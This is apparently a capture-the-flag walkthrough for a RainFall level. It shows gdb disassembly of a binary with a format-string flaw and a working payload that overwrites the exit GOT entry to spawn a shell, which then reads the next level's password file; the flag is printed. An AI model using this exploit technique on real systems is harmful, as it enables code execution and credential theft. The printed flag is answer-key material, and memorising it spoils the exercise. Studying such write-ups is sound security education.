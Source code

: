 ```sh
(gdb) info function
All defined functions:

Non-debugging symbols:
0x08048334  _init
0x08048380  printf
0x08048380  printf@plt
0x08048390  _exit
0x08048390  _exit@plt
0x080483a0  fgets
0x080483a0  fgets@plt
0x080483b0  system
0x080483b0  system@plt
0x080483c0  __gmon_start__
0x080483c0  __gmon_start__@plt
0x080483d0  exit
0x080483d0  exit@plt
0x080483e0  __libc_start_main
0x080483e0  __libc_start_main@plt
0x080483f0  _start
---Type <return> to continue, or q <return> to quit---
0x08048420  __do_global_dtors_aux
0x08048480  frame_dummy
0x080484a4  o #function o()  not called by the program
0x080484c2  n #function n()
0x08048504  main #function main()
0x08048520  __libc_csu_init
0x08048590  __libc_csu_fini
0x08048592  __i686.get_pc_thunk.bx
0x080485a0  __do_global_ctors_aux
0x080485cc  _fini
```

```sh
(gdb) disas main
Dump of assembler code for function main:
   0x08048504 <+0>:     push   %ebp
   0x08048505 <+1>:     mov    %esp,%ebp
   0x08048507 <+3>:     and    $0xfffffff0,%esp
   0x0804850a <+6>:     call   0x80484c2 <n> # n()
   0x0804850f <+11>:    leave  
   0x08048510 <+12>:    ret    
End of assembler dump.
```
```sh
(gdb) disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:     push   %ebp
   0x080484c3 <+1>:     mov    %esp,%ebp
   0x080484c5 <+3>:     sub    $0x218,%esp
   0x080484cb <+9>:     mov    0x8049848,%eax #stdin
   0x080484d0 <+14>:    mov    %eax,0x8(%esp)
   0x080484d4 <+18>:    movl   $0x200,0x4(%esp) #512
   0x080484dc <+26>:    lea    -0x208(%ebp),%eax #buffer[520]
   0x080484e2 <+32>:    mov    %eax,(%esp)
   0x080484e5 <+35>:    call   0x80483a0 <fgets@plt> # fgets(buffer, 512, stdin)
   0x080484ea <+40>:    lea    -0x208(%ebp),%eax
   0x080484f0 <+46>:    mov    %eax,(%esp)
   0x080484f3 <+49>:    call   0x8048380 <printf@plt> #printf(buffer)
   0x080484f8 <+54>:    movl   $0x1,(%esp)
   0x080484ff <+61>:    call   0x80483d0 <exit@plt> # exit(1)
End of assembler dump.
```
```sh
(gdb) disas o
Dump of assembler code for function o:
   0x080484a4 <+0>:     push   %ebp
   0x080484a5 <+1>:     mov    %esp,%ebp
   0x080484a7 <+3>:     sub    $0x18,%esp
   0x080484aa <+6>:     movl   $0x80485f0,(%esp) # "/bin/sh"
   0x080484b1 <+13>:    call   0x80483b0 <system@plt> # system("/bin/sh")
   0x080484b6 <+18>:    movl   $0x1,(%esp)
   0x080484bd <+25>:    call   0x8048390 <_exit@plt> # _exit(1)
End of assembler dump.
```

First let's retrieve the offset of our buffer in the stack
```sh
(gdb) b *0x080484f8
Breakpoint 1 at 0x80484f8
(gdb) r
Starting program: /home/user/level5/level5 
AAAA
AAAA

Breakpoint 1, 0x080484f8 in n ()
(gdb) x/20wx $esp
0xbffff510:     0xbffff520      0x00000200      0xb7fd1ac0      0xb7ff37d0
0xbffff520:     0x41414141      0xb7e2000a      0x00000001      0xb7fef305 #4
0xbffff530:     0xbffff588      0xb7fde2d4      0xb7fde334      0x00000007
0xbffff540:     0x00000000      0xb7fde000      0xb7fff53c      0xbffff588
0xbffff550:     0x00000040      0x00000b80      0x00000000      0xb7fde714
(gdb) x/s $esp + 16
0xbffff520:      "AAAA\n"
```

The buffer is located at $esp + 16 (4th argument in printf)

Now we need to override the address of Exit, but we can't do it directly with `0x80483d0` because this is the plt entry for Exit, the PLT section is readonly and even if we overwrote it would do nothing because the PLT section uses the GOT section in order to retrieve real dynamically linked function address

If we disassemble the function located at `0x80483d0` (`exit` in our function `n`):

```sh
(gdb) disas 0x80483d0
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:     jmp    *0x8049838 # GOT Entry for exit
   0x080483d6 <+6>:     push   $0x28
   0x080483db <+11>:    jmp    0x8048370
End of assembler dump.
```

`0x8049838` is the address we need to overwrite

Let's create our payload:

- `\x38\x98\x04\x08`: The address of the GOT Entry in little endian
- `%134513824x`: 134513828 is the decimal value of 0x080484a4 - 4 bytes since we'll be already writing 4 bytes with the address of the GOT Entry
- `%4$n`: We target the 4th element in our stack which are the first 4 bytes of our own buffer

```sh
level5@RainFall:~$ (python -c "print('\x38\x98\x04\x08' + '%134513824x' + '%4\$n')";cat) | ./level5 


              200
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```